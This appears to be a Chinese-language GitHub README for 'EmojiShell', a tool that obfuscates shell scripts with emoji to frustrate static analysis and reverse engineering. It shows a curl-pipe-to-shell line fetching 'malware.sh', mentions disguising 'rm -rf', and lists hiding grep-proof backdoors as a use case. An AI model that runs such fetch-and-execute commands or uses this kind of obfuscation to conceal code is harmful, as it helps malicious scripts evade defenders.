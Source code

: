 🌟 EmojiShell | 用表情包守护你的 Shell 脚本

项目定位：

一个专注于 Emoji 混淆技术 的 Shell 脚本安全工具库，通过将敏感代码转换为颜文字、符号组合和动态字体，实现 视觉迷惑 与 逆向防御 的平衡。

🔑 核心功能

1. Emoji 代码伪装
   - 将 
"rm -rf" 转换为 
"✂️➡️🚫📁"，混淆关键指令
   - 支持自定义 Emoji 映射表（如 
"🐚=echo", 
"😈=sudo"）
2. 动态混淆引擎
   - 基于 Shell 的运行时语法代码加密（每次执行自动变换 Emoji 形式）
   - 结合 多种混合加密的 Emoji 编码方案
3. 反调试陷阱
   - 通过 
"$RANDOM" 生成伪随机 Emoji 流干扰静态分析
4. Shell 加壳工具
   - 一键生成混淆后的 
".sh" 二进制文件（兼容 Linux/macOS）
   - 支持自定义 Shell 解释器内容

🎯 技术亮点

- 立即部署：
“使用 Shell 来加密 Shell”
- 视觉欺骗设计：
EmojiCode

# 原始命令
curl https://example.com/malware.sh | sh

# EmojiShell 版本
$(🐚)1$(☕)2$(🌐) $(📡)$(🔍)$(🚪)$(💻) | $(💻)
- 可扩展性：
   - 兼容 
"zsh"/
"ash" 等非标准 Shell 环境

🚀 快速上手

# 安装依赖
git clone https://github.com/haothtrteen/EmojiShell.git
cd EmojiShell && chmod +x install.sh

# 混淆示例
echo "whoami" | ./emoji-obfuscator --level hard
# 输出：$(📡)$(🔍)$(🚪)$(💻)

# 生成全加密脚本
修改 EmojiCode.sh 文件中指定的加密文件路径
`text="example.sh" #原脚本绝对路径`
将 example.sh 替换为你要加密的shell文件路径后执行加密脚本即可

🛡️ 应用场景

- 敏感脚本保护：运维脚本、自动化渗透测试工具
- 代码混淆教学：逆向工程实验、CTF 题目设计
- 沙雕开发：用 Emoji 写出无法被 grep 搜索到的隐藏后门 😈

📜 许可证

- MIT License（开源自由，但禁止用于非法活动）
- 商业授权：企业级定制化混淆规则需联系 
"2557976190@qq.com"

🤝 参与贡献

1. Fork 仓库并提交 PR（如新增 Emoji 编码规则）
2. 报告漏洞至 Issues（标注 
"[Security]" 标签）
3. 在 Twitter 带话题 
"#EmojiShell" 分享你的混淆成果 🚀

最后更新：2025-09-10

项目愿景：让 Shell 脚本成为逆向工程师的噩梦 🧟♂️💻

设计思路

1.  Shell语法
2. 尝试通过emoji来代替函数变量
3. 编写自动化加密工具


# 目前仍存在的bug以及需要更新的功能

- 在执行复杂命令或语法时会无法运行，正在尝试修复（暂时尝试使用跳过关键指令加密来修复）
- 在ash（Android系统终端环境）中运行并不是特别理想在尝试优化
- 目前只支持对“0~9,a~z”所有的数字及英文字母进行加密，对特殊字符语言的加密需要更新
